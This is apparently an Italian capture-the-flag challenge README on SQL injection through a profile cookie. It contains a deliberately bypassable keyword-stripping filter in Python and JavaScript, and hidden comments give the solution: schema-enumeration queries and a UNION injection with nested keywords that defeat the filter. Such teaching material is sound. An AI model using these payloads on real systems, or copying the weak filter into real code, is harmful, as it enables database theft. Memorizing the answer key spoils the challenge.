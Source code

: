 # Challenge: Cookie Tampering & SQL Injection

## Descrizione
Hai accesso al codice sorgente di un'applicazione web con diverse vulnerabilità interessanti:
- Una **SQL Injection nella registrazione** 
- Una **Cookie Tampering vulnerability** nella pagina del profilo 🍪
- Un tentativo (fallito) di filtrare input pericolosi con una funzione bypassabile

L'obiettivo? Sfruttare queste vulnerabilità per recuperare la flag nascosta nella tabella!

## Obiettivo
- **Analizza il codice per identificare i punti vulnerabili**
- **Sfrutta la SQL injection nel cookie 'uid' della pagina profilo**
- **Costruisci una UNION injection per leggere la flag dalla tabella segreta**
- **Recupera il valore di della flag**

## Suggerimenti
- Il codice nella pagina profilo usa questa query vulnerabile:
```sql
SELECT username FROM users WHERE id = [valore-del-cookie]
```

### Filtro (Python):
```python
def filter_query(query):
    keywords = ["SELECT", "FROM", "WHERE", "OR", "AND", "INSERT", "UPDATE", "DELETE", "DROP", "ALTER", "CREATE", "TABLE", "DATABASE", "UNION", "JOIN"]
    for keyword in keywords:
        query = query.replace(keyword, "")
    return query
```

### Filtro (Node.js):
```javascript
function filterQuery(query) {
    const keywords = ["SELECT", "FROM", "WHERE", "OR", "AND", "INSERT", "UPDATE", "DELETE", "DROP", "ALTER", "CREATE", "TABLE", "DATABASE", "UNION", "JOIN"];
    return keywords.reduce((filteredQuery, keyword) => {
        return filteredQuery.replace(keyword, "");
    }, query);
}
```

[//]: # (Prima bisogna spiegare che si possono ottenere info sui db e le loro tabelle con la query:)

[//]: # (```sql)

[//]: # (SELECT table_name FROM information_schema.tables WHERE table_schema=database&#40;&#41;)

[//]: # (```)

[//]: # (E per ottenere i nomi delle colonne di una tabella si può usare:)

[//]: # (```sql)

[//]: # (SELECT column_name FROM information_schema.columns WHERE table_name='...')

[//]: # (```)

[//]: # (Inj finale pre filter:)

[//]: # (```sql)

[//]: # (2 UNION SELECT mypersonalflag FROM flagrandomwordss -- a)

[//]: # (```)

[//]: # ()
[//]: # (Inj finale post filter:)

[//]: # (```sql)

[//]: # (2 UNIOUNIONN SELECSELECTT mypersonalflag FROFROMM flagrandomwordss -- a)

[//]: # (```)